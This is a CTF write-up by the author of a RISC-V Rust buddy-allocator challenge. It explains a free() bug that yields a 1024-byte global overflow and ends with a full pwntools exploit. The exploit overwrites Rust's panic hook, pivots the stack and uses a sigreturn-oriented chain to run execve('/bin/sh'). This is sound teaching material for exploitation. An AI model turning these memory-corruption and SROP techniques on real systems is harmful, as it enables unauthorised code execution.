










# aRRRocator

## Write-up

### Reversing and finding the bug

This challenge is a simple memory allocator, called a buddy allocator, written in Rust and compiled to Risc-V. I found this to be a cool idea that I'm proud of because it's one of the rare cases where using unsafe Rust is very natural, so there isn't just a bunch of unsafes for the challenge's sake. There's isn't much functionality in the program: you can write to a buffer (called a flag) and you can free it. That's all. This is how it looks like:




and the non-allocator related logic:
```rust
fn get_flag() -> &'static mut [u8] {
    print!("Length: ");
    io::stdout().flush().unwrap();
    let mut line = String::new();
    io::stdin().read_line(&mut line).unwrap();
    let length = line.trim().parse().unwrap();

    let flag_mem = alloc(length).unwrap();

    print!("Write your own flag: ");
    io::stdout().flush().unwrap();
    let mut buffer = [0u8; 4096];
    let bytes_read = io::stdin().read(&mut buffer).unwrap();

    for i in 0..bytes_read {
        flag_mem[i] = buffer[i];
    }

    flag_mem
}

fn main() {
    init();
    
    println!("🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱");
    println!("🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱  FLAG  ALLOCATOR  🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱");
    println!("🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇯🇵🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱");
    println!("🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱  EVERYONE GETS A FLAG !!!  🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱");
    println!("🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱🇵🇱");
    println!("🇵🇱                                             🇵🇱");
    
    let mut flag = None;
    loop {
        println!("");
        menu();
        
        let mut line = String::new();
        io::stdin().read_line(&mut line).unwrap();
        let choice: i32 = line.trim().parse().unwrap();
        match choice {
            1 => {
                flag = Some(get_flag());
            },
            2 => {
                free(flag.as_mut().unwrap());
            },
            _ => {
                break;
            }
        }
    }
}
```

Additionally, I compiled the binary with no-PIC. There are no leaks so we can only use the addresses of our Rust binary.

If you don't know what a buddy allocator is or how it works, I found [this to be a good resource](https://youtu.be/DRAHRJEAEso).
In short, it's an allocation scheme where you can image it as a binary tree, where each level represents some power of two size of our memory space that is designated for allocation. If you have some competitive programming background, it resembles a [segment tree](https://cp-algorithms.com/data_structures/segment_tree.html). In fact, I based my implementation on the video above and segment trees with how I store the tree and propagate the values. My implementation is very bad, and not only because it includes bugs to be exploited, it's also pretty slow and not memory efficient at all.




We have three arrays in the program.
A TREE array that stores information about each node, a FREE array that stores a doubly linked list of free nodes at each level, and a MEM array that represents the memory to be allocated.
```rust
#[derive(Clone, Copy)]
struct Node {
    mem: *mut u8,
    idx: usize,
    depth: usize,
    next: Option<usize>,
    prev: Option<usize>,
    is_used: bool,
}

static mut TREE: [Node; 64] = [Node {
    mem: ptr::null_mut(),
    idx: 0,
    depth: 0,
    next: None,
    prev: None,
    is_used: false,
}; 64];

static mut FREE: [Option<usize>; 7] = [None; 7];

static mut MEM: [u8; 1024] = [0u8; 1024];
```

To get the overflow, we allocate a flag of the size 1024, we free it, and now we can allocate a flag of the size 2048. The bug is in the free function:
```rust
fn free(ptr: &mut [u8]) {
    let mut idx = ptr_to_idx(ptr);
    let mut depth = size_to_depth(ptr.len());
    unsafe {
        loop {
            TREE[idx].is_used = false;
            let l = idx;
            let r = idx ^ 1;
            if !TREE[l].is_used && !TREE[r].is_used {
                unlink(TREE[l].idx);
                unlink(TREE[r].idx);

                idx /= 2;
                depth -= 1;
                link(idx);
                if depth <= 1 {
                    break;
                }
            } else {
                link(idx);
                break;
            }
        }
    }
}
```
The check `if depth <= 1 { break; }` is done after the first merge is done, so when we start at the root node, it still assumes it has a buddy, even though it doesn't. In the tree I start my indexing from 1 because it makes the math easier, but it also has this nice property that we have an unused phantom-node at index 0. You can even say it's two nodes in one, because it's the buddy of node 1, and it's also the parent of node 1. To visually this, the tree looks kinda like this, where each node number is its index in the TREE array.




This gives us a strong primitive of a 1024-byte long overflow in the binary section with global variables.
```python
    # Exploit the bug in the memory allocator to get a strong primitive
    # of a 1024-byte long overflow.
    io.sendlineafter(b"gimme", b"1")
    io.sendlineafter(b"Length", b"1024")
    io.sendlineafter(b"flag:", b"A")

    io.sendlineafter(b"gimme", b"2")

    io.sendlineafter(b"gimme", b"1")
    io.sendlineafter(b"Length", b"2048")
```

### Exploitation

If we inspect the memory, we can see that the rust compiler nicely placed for us some useful structs after our MEM array.




We can see in the Rust's source code that HOOK [is an enum Hook wrapped around in a RwLock<>](https://stdrs.dev/nightly/x86_64-unknown-linux-gnu/std/panicking/static.HOOK.html)
```rust
enum Hook {
    Default,
    Custom(Box<dyn Fn(&PanicInfo<'_>) + Sync + Send + 'static>),
}
```
From an exploitation point of view the only things we need to care about are that: at offset +0 we should write zeroes, otherwise we might get a deadlock, at offset +8 seems like there's nothing useful, at offset +16 there is the argument to our function that will be stored in register a0, at offest +24 there's a pointer to some struct at has a function pointer at offset +0x28.

```python
    # Address where `do_pivot` is. `rust_panic_with_hook` reads this address
    # and jumps to whatever function pointer is in there.
    mem_addr = 0x614f8
    
    syscall_plt = 0x121a0
    # Syscall numbers.
    sigret = 0x8b
    execve = 0xdd

    # Distance from sp to the beg of memory we control is 0x450 (1104).
    # The sp pivot is `addi    sp,sp,1296`.
    sp_pivot = 0x1a2b2

    mem_start = p64(sp_pivot)

    # We overwrite std::panicking::HOOK with this.
    overflow = b"\x00" * 128 + \
        p64(0x414141) + p64(sigret) + p64(mem_addr-0x28)
```

After doing the overflow, our memory will look like this:




It's probably a good time to dive-in into the basics of the Risc-V architecture.
The most important thing to note is that a ret at the the end of a gadget is a lie - it's a pseudo-instruction. In reality, Risc-V doesn't have a ret and this is equal to a jmp to whatever is stored in the ra register. This makes Risc-V exploitation much harder than on x86 since we need gadgets that not only have a ret at the end, but also something that pops the ra value, or moves, or something (or does a jmp to some other register value). Another thing that limits possible gadgets is that instruction are of the same size and aligned, so we can't just jump to the middle of some instruction opcode.
Copied [from some other writeup](https://chalkiadakis.me/posts/hack-a-sat-23/riscv-pwn/
), this is what all the registers are and what is their purpose:




To make syscalls we execute the ecall instruction, which stores the syscall number in the a7 register and all of the arguments in registers from a0 to a5. If you want to know more about Risc-V I recommend the writeup linked above.


Alright, so this is the stackpivot gadget we jump to in our overflow:




During the execution of our stackpivot we can see that sp is equal to 0x7893162c7b00 and bufor we control on the stack start at 0x7893162c7f48, so we have a distance of 0x448 bytes (or 1096 in decimal). This is what we use the stack pivot for, so sp is at a value we control so we can execute a rop chain, in this case srop.



I spent a lot of time trying to get the control of a7 to make a syscall (either execve or sigreturn), but In the end I failed. This is where I had the realization that our rust binary is still linked against libc and I checked the GOT.




We can see a syscall function! Bingo! Since we control a0, and a syscall function declaration looks probably something like `int syscall(int syscall_num, int arg0, ...);` we control the first argument to it from our panicking hook. So we control the syscall number, we can execute the syscall sigreturn and perform sigreturn oriented programming! And in fact, after disassembling the function this turns out to be true.




If you dont know what an SROP is,
[it's a special technique that uses the sigreturn syscall to get control of all the registers](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming). You can image the syscall as a function that pops all the registers from the stack, and I mean all of them. This sounds great but might be a little bit annoying since we have to set the stack etc to values that make sense. We will use it to call the execve syscall with all registers set to proper values.

```python
    # The offset 184 is where return address after stack pivot happens to be.
    do_pivot = flat({
        184: p64(syscall_plt)
    })

    # Syscall gadget.
    ecall = 0x000000000005068c
    
    srop = flat({
        # pc
        304: p64(ecall),
        # a0-2
        384+8*0: p64(0x061600), # Address of /bin/sh.
        384+8*1: p64(0),
        384+8*2: p64(0),
        # a7
        384+7*8: p64(execve),
        # gp
        328: p64(0x41),
        # tp
        336: p64(0x42),
        # sp
        320: p64(0x43),
        # ra
        312: p64(0x44),
        # /bin/sh
        64: b"/bin/sh\x00"
    })
    srop = srop.ljust(1024-len(mem_start)-len(do_pivot), b"\xcc")
    
    io.sendlineafter(b"flag:", mem_start + do_pivot + srop + overflow)
```

... and after executing the execve syscall we get a shell ;). Because we overwrote the panic handler, we need to somehow trigger a panic. For example we can send a random input to the int parsing function which will cause a crash with `.unwrap()`.
```python
    io.sendlineafter(b"gimme", b"1")
    io.sendlineafter(b"Length", b"asd")
    io.sendline(b"cat flag")
```

### Full exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./arrrocator_patched")

context.binary = exe
context.terminal = "alacritty -e".split()


def conn():
    if args.LOCAL:
        if args.GDB:
            io = gdb.debug([exe.path], aslr=False, api=False, gdbscript="""
            set follow-fork-mode parent
            """)
        else:
            io = process([exe.path])
            #gdb.attach(io)
    else:
        # io = remote("arrrocator-47629d6aa2bb0c27.chal.ush.pw", 443, ssl=True)
        io = remote("127.0.0.1", 1337)
    return io


def main():
    io = conn()
    # Exploit the bug in the memory allocator to get a strong primitive
    # of a 1024-byte long overflow.
    io.sendlineafter(b"gimme", b"1")
    io.sendlineafter(b"Length", b"1024")
    io.sendlineafter(b"flag:", b"A")

    io.sendlineafter(b"gimme", b"2")

    io.sendlineafter(b"gimme", b"1")
    io.sendlineafter(b"Length", b"2048")

    # Address where `do_pivot` is. `rust_panic_with_hook` reads this address
    # and jumps to whatever function pointer is in there.
    mem_addr = 0x614f8
    
    syscall_plt = 0x121a0
    # Syscall numbers.
    sigret = 0x8b
    execve = 0xdd

    # Distance from sp to the beg of memory we control is 0x450 (1104).
    # The sp pivot is `addi    sp,sp,1296`.
    sp_pivot = 0x1a2b2

    mem_start = p64(sp_pivot)

    # We overwrite std::panicking::HOOK with this.
    overflow = b"\x00" * 128 + \
        p64(0x414141) + p64(sigret) + p64(mem_addr-0x28)

    # The offset 184 is where return address after stack pivot happens to be.
    do_pivot = flat({
        184: p64(syscall_plt)
    })

    # Syscall gadget.
    ecall = 0x000000000005068c
    
    srop = flat({
        # pc
        304: p64(ecall),
        # a0-2
        384+8*0: p64(0x061600), # Address of /bin/sh.
        384+8*1: p64(0),
        384+8*2: p64(0),
        # a7
        384+7*8: p64(execve),
        # gp
        328: p64(0x41),
        # tp
        336: p64(0x42),
        # sp
        320: p64(0x43),
        # ra
        312: p64(0x44),
        # /bin/sh
        64: b"/bin/sh\x00"
    })
    srop = srop.ljust(1024-len(mem_start)-len(do_pivot), b"\xcc")
    
    io.sendlineafter(b"flag:", mem_start + do_pivot + srop + overflow)

    io.sendlineafter(b"gimme", b"1")
    io.sendlineafter(b"Length", b"asd")
    io.sendline(b"cat flag")

    io.recvuntil(b"BtSCTF")
    exit(0)


if __name__ == "__main__":
    main()
```

### Post-mortem

Turns out, programs ran with Qemu have an executable stack, even though it's not marked as such. This is what a player from kalmarunionen wrote to me after the ctf:


Explains why they solved it so fast :P.
